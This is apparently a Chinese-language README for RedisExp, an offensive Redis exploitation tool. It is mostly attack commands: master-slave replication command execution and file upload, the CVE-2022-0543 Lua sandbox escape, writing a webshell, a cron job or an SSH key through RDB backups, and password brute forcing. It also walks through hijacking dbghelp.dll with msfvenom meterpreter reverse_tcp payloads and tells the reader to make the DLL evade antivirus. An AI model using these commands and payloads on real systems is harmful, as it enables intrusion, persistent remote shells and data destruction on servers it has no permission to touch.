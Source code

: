## Redis 漏洞利用工具

快捷使用：`RedisExp`

```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

2022/05/23 23:36:54 [+]  -h 靓仔查看下帮助吧
Example:
主从复制命令执行:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so

主从复制文件上传:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload

主动关闭主从复制:
RedisExp.exe -rhost 192.168.211.131 -slaveof

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe -rhost 192.168.211.131 -lua -console

备份写 Webshell:
RedisExp.exe -rhost 192.168.211.131 -shell

Linux 写计划任务:
RedisExp.exe -rhost 192.168.211.131 -crontab

Linux 写 SSH 公钥:
RedisExp.exe -rhost 192.168.211.131 -ssh

爆破 Redis 密码:
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf ../pass.txt

执行 Redis 命令:
RedisExp.exe -rhost 192.168.211.131 -cli

导出 Redis 数据:
RedisExp.exe -rhost 192.168.211.131 -dump

导入 Redis 数据:
RedisExp.exe -rhost 192.168.211.131 -import
```

```
cmd
├── crontab.txt    默认写入的Linux下的crontab定时任务文件，用前需要修改
├── exp.dll        默认导入的Windows Redis模块
├── exp.so         导入的Linux Redis模块
├── main.go        编译攻击主程序
├── out.json       导出导入的 Redis 数据
├── pass.txt       爆破字典
├── shell.txt      默认写入的 Webshell 文件，用前需要修改
└── ssh.txt        默认写入的Linux下的ssh公钥文件，用前需要修改

```



### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

### 解决

1、导出 Redis 数据

2、利用主从复制漏洞

3、导入 Redis 数据

> **主从复制默认调用了 导出 Redis 数据  和 导入数据，也可以主动导出和导入。**



### 主从复制漏洞

#### 命令执行

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
Windows:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so
````

![](images/slave_Rce.png)

#### 文件上传

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```

![](images/slave_Upload.png)

#### Windows 劫持 dbghelp.dll

https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/#toc-heading-22

1、使用 msf 生成 dll ，（cs 需要自己写一个调用 rundll32 .exe的dll，不能直接使用）

```
# 64 位

msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=192.168.211.130 LPORT=5555 > 64.dll

# 32 位
msfvenom -p windows/meterpreter/reverse_tcp -ax86 -f dll LHOST=ip LPORT=端口 > reverse_32bit.dll
```

2、生成项目DLL后使用Koppeling项目中的Python3脚本来链接到转发DLL: https://github.com/monoxgas/Koppeling

```
python -m pip install pefile

python .\PyClone.py 64.dll C:\windows\system32\dbghelp.dll -o dbghelp.dll
```

3、利用主从复制上传制作好的  dbghelp.dll

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dbghelp.dll -lfile dbghelp.dll -upload
```

4、执行 bgsave 成功上线

```
RedisExp.exe -rhost 192.168.211.134 -cli

bgsave
```

5、dll 需要免杀，好像不太稳定，自行在本地测试再利用。



### RDB备份文件利用

#### 写 Webshell

```
RedisExp.exe -rhost 192.168.211.131 -shell
```

![](images/webshell.png)

#### Linux写计划任务

```
RedisExp.exe -rhost 192.168.211.133 -crontab
```

![](images/crontab.png)

#### Linux写SSH公钥

```
RedisExp.exe -rhost 192.168.211.133 -ssh
```

![](images/ssh.png)

### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```

![](images/lua.png)


### 爆破 Redis 密码

```
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf pass.txt
```

![](images/pass.png)


### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/

 

